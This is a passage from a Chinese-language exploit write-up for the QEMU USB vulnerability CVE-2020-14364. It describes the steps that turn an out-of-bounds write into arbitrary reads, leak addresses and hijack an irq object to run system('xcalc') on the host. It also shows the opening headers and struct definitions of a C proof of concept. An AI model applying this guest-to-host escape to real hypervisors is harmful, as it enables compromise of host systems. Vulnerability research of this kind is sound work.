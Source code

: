 **3.  我们还需要获取任何地址读取功能，setup_buf [0]控制写入方向，并且只能由do_token_setup进行修改。 由于我们在第二步中使用了越界写入功能，因此setup_buf [0]是写入方向，因此只可以进行写入操作，无法读取。绕过方法：设置setup_index = 0xfffffff8，再次越界，修改setup_buf [0]的值，然后再次将setup_index修改为要读取的地址，以实现任意地址读取。**

**4.通过任意地址读取usbdevice对象的内容以获取ehcistate对象地址，再次使用任意地址读取ehcistate对象的内容以获取ehci_bus_ops_companion地址。 该地址位于程序data节区。 这时，我们可以获得程序的加载地址和system @ plt地址。也可以通过读取usbdevice固定偏移位置后的usb-tablet对象来获得加载地址。**

**5.在data_buf中伪造irq结构。**

**6.以伪造结构劫持ehcistate中的irq对象。**

**7.通过mmio读取寄存器以触发ehci_update_irq，执行system（“ xcalc”）。 完成利用**

[QEMU CVE-2020-14364 POC 视频演示](https://v.qq.com/x/page/w3141fini4b.html)

## 漏洞利用POC

```c
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
#include <stdio.h> 
#include <stdlib.h> 
#include <string.h> 
#include <errno.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <stdbool.h>
#include <netinet/in.h> 

unsigned char* mmio_mem;
char *dmabuf;
struct ohci_hcca * hcca;
struct EHCIqtd * qtd;
struct ohci_ed * ed;
struct ohci_td * td;
char *setup_buf;
uint32_t *dmabuf32;
char *td_addr;
struct EHCIqh * qh;
struct ohci_td * td_1;
char *dmabuf_phys_addr;
typedef struct USBDevice USBDevice;
typedef struct USBEndpoint USBEndpoint;

struct USBEndpoint {
    uint8_t nr;
    uint8_t pid;
    uint8_t type;
    uint8_t ifnum;
    int max_packet_size;
    int max_streams;
    bool pipeline;
    bool halted;
    USBDevice *dev;
    USBEndpoint *fd;
    USBEndpoint *bk;
};

```
